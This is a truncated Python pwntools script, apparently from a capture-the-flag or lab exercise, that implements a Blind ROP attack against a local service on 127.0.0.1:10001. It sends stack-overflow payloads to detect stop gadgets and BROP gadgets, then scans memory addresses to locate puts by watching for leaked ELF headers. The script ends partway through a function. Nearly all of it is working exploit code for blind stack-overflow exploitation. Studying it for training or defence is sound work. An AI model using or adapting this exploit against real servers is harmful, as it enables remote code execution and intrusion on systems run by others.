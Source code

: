```python

def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil(b'password?\n')
        payload = b'a'*length + \
            p64(addr) + 6*p64(0xdeadbeaf) + \
            p64(stop_gadget) + 10*p64(stop_gadget)
        sh.sendline(payload)
        output = sh.recv(timeout=3)
        sh.close()
        info(b'output:' + output)
        if output.startswith(b'WelCome'):
            return True

    except EOFError:
        sh.close()
        return False


def check_BROP_gadgets(length, addr):
    try:
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil('password?\n')
        payload = b'a'*length + p64(addr) + p64(0xdeadbeaf)*100
        sh.sendline(payload)
        output = sh.recv()
        sh.close()
        info('stop gadget, not BROP gadgets')
        return False
    except EOFError:
        sh.close()
        return True


def get_puts_addr(length, pop_rdi_ret, stop_gadget):
    addr = 0x400550
    while True:
        info(hex(addr))
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil('password?\n')
        payload = b'a'*length + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith(b'\x7fELF'):
                success('finding puts addr:0x%x' % addr)
                return addr
        except EOFError:
            pass
        finally:
            sh.close()
            addr += 1


def get_puts_start_addr(length, pop_rdi_ret, stop_gadget, addr):
    info('we has find put_plt, now try to find the start:')
    while True:
        info(hex(addr))
        flag1 = False
        flag2 = False
        sh = remote('127.0.0.1', 10001)
```